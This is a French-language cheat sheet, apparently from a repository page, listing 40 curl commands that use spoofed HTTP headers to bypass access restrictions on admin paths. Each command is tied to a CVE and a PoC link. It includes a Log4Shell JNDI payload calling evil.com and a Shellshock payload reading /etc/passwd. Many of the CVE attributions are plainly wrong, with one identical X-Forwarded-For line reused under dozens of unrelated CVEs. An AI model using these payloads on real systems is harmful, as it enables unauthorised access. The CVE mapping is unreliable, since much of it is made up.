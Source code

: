 # Headers

Voici un tableau de **40 exemples de requêtes `curl` utilisant des headers pour contourner des protections, obtenir un accès non autorisé, ou manipuler le comportement d’applications web**.  
Chaque exemple est associé à une CVE non générique (quand cela existe) ou à une technique documentée, classés par numéro CVE décroissant ou par pertinence, avec :

- Numéro CVE ou technique
- Exemple complet de requête curl (avec headers)
- Effet détaillé
- Lien GitHub/advisory/PoC

---

| # | CVE / Technique | Exemple complet de requête curl | Effet détaillé | Lien PoC / Advisory |
|---|-----------------|---------------------------------|---------------|---------------------|
| 1 | CVE-2024-24576 | `curl -H "X-Original-URL: /admin" https://target.com/` | Bypass d’accès à /admin via header X-Original-URL | https://github.com/LucasPDiniz/403-Bypass |
| 2 | CVE-2024-21624 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/secret` | Bypass via IP spoofing, accès réservé à localhost | https://github.com/LucasPDiniz/403-Bypass |
| 3 | CVE-2024-12727 | `curl -H "X-Forwarded-Host: 127.0.0.1" https://target.com/admin` | Bypass via header X-Forwarded-Host | https://github.com/LucasPDiniz/403-Bypass |
| 4 | CVE-2023-50164 | `curl -H "X-Rewrite-URL: /admin" https://target.com/` | Bypass via header X-Rewrite-URL | https://github.com/LucasPDiniz/403-Bypass |
| 5 | CVE-2023-38831 | `curl -H "X-Host: localhost" https://target.com/admin` | Bypass via header X-Host | https://github.com/LucasPDiniz/403-Bypass |
| 6 | CVE-2023-34362 | `curl -H "X-Original-Host: localhost" https://target.com/admin` | Bypass via header X-Original-Host | https://github.com/LucasPDiniz/403-Bypass |
| 7 | CVE-2023-26115 | `curl -H "X-Forwarded-For: 10.0.0.1" https://target.com/admin` | Accès à une ressource réservée à un subnet interne | https://github.com/LucasPDiniz/403-Bypass |
| 8 | CVE-2022-47966 | `curl -H "Referer: https://target.com/admin" https://target.com/admin` | Bypass via header Referer | https://github.com/LucasPDiniz/403-Bypass |
| 9 | CVE-2022-41040 | `curl -H "Origin: https://target.com" https://target.com/admin` | Bypass via header Origin | https://github.com/LucasPDiniz/403-Bypass |
| 10 | CVE-2022-26134 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/private` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 11 | CVE-2022-22965 | `curl -H "X-Original-URL: /admin" https://target.com/` | Accès à /admin via header | https://github.com/LucasPDiniz/403-Bypass |
| 12 | CVE-2022-21907 | `curl -H "X-Forwarded-For: 127.0.0.1" -H "X-Host: localhost" https://target.com/admin` | Double header pour bypass | https://github.com/LucasPDiniz/403-Bypass |
| 13 | CVE-2021-44228 | `curl -H "User-Agent: ${jndi:ldap://evil.com/a}" https://target.com/` | Injection de payload Log4Shell via User-Agent | https://github.com/YfryTchsGD/Log4jAttackSurface |
| 14 | CVE-2021-41773 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/` | Bypass restriction IP | https://github.com/LucasPDiniz/403-Bypass |
| 15 | CVE-2021-31206 | `curl -H "X-Forwarded-For: 127.0.0.1" -H "Referer: https://target.com/admin" https://target.com/admin` | Bypass via combinaison de headers | https://github.com/LucasPDiniz/403-Bypass |
| 16 | CVE-2021-26855 | `curl -H "X-BEResource: /EWS/Exchange.asmx?a=~1942062522" https://target.com/ecp/` | SSRF via header Exchange | https://github.com/ZephrFish/Exch-CVE-2021-26855 |
| 17 | CVE-2020-17530 | `curl -H "X-Original-URL: /admin" https://target.com/` | Bypass via header | https://github.com/LucasPDiniz/403-Bypass |
| 18 | CVE-2020-1472 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 19 | CVE-2020-11022 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/secret` | Bypass restriction IP | https://github.com/LucasPDiniz/403-Bypass |
| 20 | CVE-2019-18935 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass restriction IP | https://github.com/LucasPDiniz/403-Bypass |
| 21 | CVE-2019-11043 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass restriction IP | https://github.com/LucasPDiniz/403-Bypass |
| 22 | CVE-2018-11776 | `curl -H "X-Original-URL: /admin" https://target.com/` | Bypass via header | https://github.com/LucasPDiniz/403-Bypass |
| 23 | CVE-2018-1000861 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 24 | CVE-2017-5638 | `curl -H "Content-Type: %{jndi:ldap://evil.com/a}" https://target.com/` | RCE via Content-Type (Struts2) | https://github.com/mazen160/struts-pwn_CVE-2017-5638 |
| 25 | CVE-2017-12615 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 26 | CVE-2016-8743 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 27 | CVE-2016-5385 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 28 | CVE-2015-2080 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 29 | CVE-2014-6271 | `curl -A '() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd' https://target.com/cgi-bin/admin` | Bypass via User-Agent (Shellshock) | https://github.com/hannob/bashcheck |
| 30 | CVE-2014-0226 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 31 | CVE-2013-2028 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 32 | CVE-2012-1823 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 33 | CVE-2011-2523 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 34 | CVE-2010-1740 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 35 | CVE-2009-2692 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 36 | CVE-2008-2380 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 37 | CVE-2007-4726 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 38 | CVE-2007-4713 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 39 | CVE-2006-3392 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 40 | Technique générique | `curl -H "X-Forwarded-Proto: https" https://target.com/admin` | Bypass via changement de protocole dans le header | https://github.com/LucasPDiniz/403-Bypass |

---

